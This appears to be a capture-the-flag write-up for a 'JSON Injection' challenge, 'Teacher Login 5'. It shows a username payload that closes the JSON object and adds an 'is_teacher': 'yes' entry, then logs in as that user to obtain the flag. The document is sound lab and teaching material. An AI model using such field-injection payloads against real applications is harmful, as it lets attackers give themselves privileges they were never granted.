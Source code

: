 # JSON Injection

## Teacher Login 5

```text
JSON Injection Login

Welcome! Can you log in as teacher?

Current Database (users.json)
[]

Add a User
Username:

Login
Username: 
```

The input fields are of **text** type

After adding a couple of users, the db looks like:

```json
[{"username": "user2", "is_teacher": "no"}, {"username": "user", "is_teacher": "no"}]
```

Injecting `"is_teacher: "yes"` through the following payload

```text
user3", "is_teacher": "yes"}, {"username": "user4
```

The result db:

```json
[{"username": "user3", "is_teacher": "yes"}, {"username": "user4", "is_teacher": "no"}, {"username": "user2", "is_teacher": "no"}, {"username": "user", "is_teacher": "no"}]
```

Logging in by "user3" gives the flag
